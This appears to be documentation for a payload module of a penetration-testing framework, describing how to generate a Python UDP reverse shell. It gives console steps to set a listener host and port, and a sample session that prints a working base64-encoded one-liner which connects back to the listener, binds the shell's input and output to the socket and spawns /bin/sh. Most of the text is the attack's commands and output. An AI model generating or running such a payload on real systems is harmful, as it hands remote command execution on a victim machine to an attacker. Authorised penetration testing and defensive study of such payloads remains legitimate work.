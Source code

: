 ## Description

Module generates payload that creates interactive udp reverse shell by using python one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/python_reverse_udp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates python udp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/python_reverse_udp
rsf (Python Reverse UDP One-Liner) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Python Reverse UDP One-Liner) > set lport 4321
[+] lport => 4321
rsf (Python Reverse UDP One-Liner) > run
[*] Running module...
[*] Generating payload
python -c "exec('aW1wb3J0IG9zCmltcG9ydCBwdHkKaW1wb3J0IHNvY2tldApzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsIHNvY2tldC5TT0NLX0RHUkFNKQpzLmNvbm5lY3QoKCcxOTIuMTY4LjEuNCcsNDMyMSkpCm9zLmR1cDIocy5maWxlbm8oKSwgMCkKb3MuZHVwMihzLmZpbGVubygpLCAxKQpvcy5kdXAyKHMuZmlsZW5vKCksIDIpCnB0eS5zcGF3bignL2Jpbi9zaCcpOwpzLmNsb3NlKCkK'.decode('base64'))"
```
